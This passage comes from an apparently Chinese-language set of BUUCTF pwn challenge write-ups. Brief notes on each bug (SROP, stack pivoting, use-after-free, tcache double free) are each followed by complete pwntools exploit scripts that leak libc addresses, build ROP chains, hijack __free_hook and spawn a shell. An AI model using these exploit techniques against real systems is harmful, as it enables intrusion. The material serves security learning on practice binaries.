p.sendlineafter('Content of heap : ',content)
def delete(index):
cmd(3)
p.sendlineafter('Index :',str(index))
magic_addr=0x6020A0
create(0x80,'yichen')
create(0x80,'writeup')
create(0x40,'12345')
delete(1)
payload='a'*0x80+p64(0)+p64(0x91)+p64(magic_addr-0x10)+p64(magic_addr-0x10)
sleep(1)
edit(0,len(payload),payload)
create(0x80,'1')
p.sendlineafter('Your choice :','4869')
gdb.attach(p)
pause()
p.interactive()
一开始
后来
[V&N2020 公开赛]babybabypwn
这个是一个沙盒，禁用了一些系统调用的，可以用 seccomp-tools 工具看一下

程序运行的时候会直接给出 puts 函数的地址，同时后面调用了 15 号也就是 sigreturn

要用 SROP，然而我又忘了这是个什么东西了 语雀内容
# coding=utf-8
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"
io = remote("node3.buuoj.cn",27360)
# io = process("./VN2020babybabypwn")
libc = ELF("./libc-2.23.so")
elf = ELF("./pwn")
context.arch = elf.arch
io.recvuntil("0x")
puts_addr = int(io.recv(12),16)
print("puts_addr ---> ",hex(puts_addr))
libcbase = puts_addr - libc.symbols["puts"]
pop_rdi_ret = 0x021102 + libcbase
pop_rsi_ret = 0x0202e8 + libcbase
pop_rdx_ret = 0x001b92 + libcbase
open_addr = libc.symbols["open"] + libcbase
read_addr = libc.symbols["read"] + libcbase
write_addr = libc.symbols["write"] + libcbase
bss_addr = libc.bss() + libcbase
print("bss_addr ---> ",hex(bss_addr))
sigframe = SigreturnFrame()
sigframe.rdi = 0
sigframe.rsi = bss_addr
sigframe.rdx = 0x100
sigframe.rsp = bss_addr
sigframe.rip = read_addr
io.sendafter("message: ",str(sigframe)[8:])
flag_addr = bss_addr + 168
payload = p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_ret) + p64(0) + p64(open_addr) #open('flag',0,0)
payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(bss_addr) + p64(pop_rdx_ret) + p64(0x100) + p64(read_addr) #read(3,bss_addr,0x100)
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(bss_addr) + p64(pop_rdx_ret) + p64(0x100) + p64(write_addr) #write(1,bss_addr,0x100)
print("len of payload --->",len(payload))
payload += b"flag\x00"
io.send(payload)
io.interactive()
https://www.yuque.com/chenguangzhongdeyimoxiao/xx6p74/msf23y
wustctf2020_getshell
from pwn import *
#p=process('./wus')
p=remote('node3.buuoj.cn',25217)
shell_addr=0x804851b
payload='a'*28+p32(shell_addr)
p.sendline(payload)
p.interactive()
ciscn_2019_es_7
又是 SROP
给了系统调用号 15 和 59

程序的流程是先往 esp-0x10 读入内容，然后输出 esp-0x10 往后 0x30大小的内容 我们拿到栈上的一个地址 0x7fffcfec1478-0x7fffcfec1360 = 0x118 = 280
那么拿到这个之后根据偏移就可以算出我们输入的内容的地址（leak_addr-0x118）
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#p=process('./ciscn')
p=remote('node3.buuoj.cn',26454)
vuln_addr=0x4004ED
mov_eax_15=0x4004DA
syscall_addr=0x400517
#gdb.attach(p,'b *0x400503')
payload='a'*16+p64(vuln_addr)
p.sendline(payload)
p.recvn(32)
leak_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
print hex(leak_addr)
execve = SigreturnFrame()
execve.rax=constants.SYS_execve
execve.rdi=leak_addr - 280
execve.rsi=0x0
execve.rdx=0x0
execve.rsp=leak_addr
execve.rip=syscall_addr
payload='/bin/sh\x00'+p64(0)+p64(mov_eax_15)+p64(syscall_addr)+str(execve)
p.sendline(payload)
p.interactive()
[BJDCTF 2nd]snake_dyn
卧槽？怎么还要密码？还有，我这不显示二维码呀！？ emmm，wsl 可以正常显示，扫码得到密码 sNaKes
连接之后输入 0x100 的名字就能出 flag
漏洞在于 strcpy 的时候如果没有 \x00 是不会截断的，而同时 flag 与 name 相距只有 0x100，所以只要输入 0x100 的内容，就会连带着 flag 一起输出来
ciscn_2019_s_4
后门地址：0x804854B，然而 echo flag 只能输出 "flag"，只能拿个 system 的地址 还有栈空间不够大，要栈迁移
leave;ret 的地址：0x080484b8
from pwn import *
#p=process('./ciscn')
p=remote('node3.buuoj.cn',25010)
context.log_level='debug'
sys_addr=0x08048400
leave_ret=0x080484b8
#gdb.attach(p,'b *0x8048596')
payload ='a'*0x24+'bbbb'
p.sendafter('name?\n',payload)
p.recvuntil('bbbb')
leak_addr = u32(p.recv(4))
print "======="
print "0x%x" %leak_addr
print "======="
buf=leak_addr-0x38
payload2=(p32(sys_addr)+p32(0xdeadbeef)+p32(buf+0xc)+'/bin/sh\x00')
payload2=payload2.ljust(0x28,'a')+p32(buf-4)+p32(leave_ret)
sleep(1)
p.send(payload2)
p.interactive()
看这个差值正好是 0x10，所以上面减去 0x38 实际上还是到了栈顶那里
看一下这题栈迁移图示，太爽了吧！！！直接放 excel 文件
hitcontraining_heapcreator
wustctf2020_getshell_2
给了后门，但是是这样的，/sh 也是可以拿到 shell 的，只需要数一下偏移就可以
from pwn import *
p=process('./pwn')
#p=remote('node3.buuoj.cn',29539)
context.log_level = 'debug'
call_sys=0x8048529
bin_sh=0x8048670
payload='a'*28+p32(call_sys)+p32(bin_sh)
p.sendafter('\n',payload)
p.interactive()
[36]ciscn_2019_es_1
首先会申请 0x18 的 chunk，用来存放用户 malloc 的那个指针，申请的堆块的 size（dword 是四字节），以及 +12 的地方存放电话号码
call 的时候实际上 free 了，同时没有置为 0
申请一个大于 0x410 大小的泄漏 unsorted bin 地址，从而拿到 libc 基址，然后利用 tcache 的 double free 来改 free_hook 为 system 的地址 exp
from pwn import *
p=process('./ciscn')
libc=ELF('./libc.so.6')
#p=remote('node3.buuoj.cn',25010)
context.log_level='debug'
def add(size,name,call):
p.sendlineafter("choice:",'1')
p.sendlineafter("size of compary's name\n",str(size))
p.sendlineafter("please input name:\n",name)
p.sendlineafter("compary call:\n",call)
def show(index):
p.sendlineafter("choice:",'2')
p.sendlineafter("the index:\n",str(index))
def call(index):
p.sendlineafter("choice:","3")
p.sendlineafter("the index:\n",str(index))
add(0x410,'yichen','123456789012')
add(0x28,'writeup','666666666')
add(0x68,'/bin/sh\x00','666666666')
call(0)
show(0)
libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96-0x10-libc.sym['__malloc_hook']
free_hook=libcbase+libc.sym['__free_hook']
system=libcbase+libc.sym['system']
call(1)
call(1)
add(0x28,p64(free_hook),'111')
add(0x28,'111','111')
add(0x28,p64(system),'111')
call(2)
p.interactive()
mrctf2020_shellcode
emmm，IDA 不能用 F5 了，直接传 shellcode 就可以
pwnable_hacknote
在 free 之后没有置为 0，存在 UAF 每次用户 malloc 的时候会先申请 0x8 大小的 chunk 来存放 puts 函数的指针和给用户分配的 chunk 的地址
思路： fastbin 是后进先出的，把用户申请的两个 chunk 给 free 之后也有两个程序自己申请的存放指针的 chunk，用户再去 malloc 0x8 的时候会用到这俩，把这俩给改掉
一开始申请了两个 chunk
free 之后再申请，看 0x804b040，这是程序自己申请的，0x804b000 则是分配给用户的
from pwn import *
context.log_level='debug'
p=process('./hacknote')
#p=remote('node3.buuoj.cn',29151)
elf=ELF('./hacknote')
libc=ELF('./libc.so.6')
def add(size,content):
p.sendlineafter("Your choice :","1")
p.sendlineafter("Note size :",str(size))
p.sendlineafter("Content :",content)
def show(index):
p.sendlineafter("Your choice :","3")
p.sendlineafter("Index :",str(index))
def delete(index):
p.sendlineafter("Your choice :","2")
p.sendlineafter("Index :",str(index))
puts_func=0x804862B
free_got=elf.got['free']
add(0x20,"yichen")
add(0x20,"writeup")
delete(0)
delete(1)
add(0x8,p32(puts_func)+p32(free_got))
show(0)
free_addr=u32(p.recv(4))
libc_base = free_addr - libc.symbols['free']
sys_addr = libc.symbols['system'] + libc_base
delete(2)
add(0x8,p32(sys_addr)+";sh\x00")
show(0)
p.interactive()
hitcontraining_bamboobox
wustctf2020_closed
emmm，stdout 和 stderr 都被关了，用命令 exec 1>&0 把 stdout 重定向到 stdin，就能正常的交互了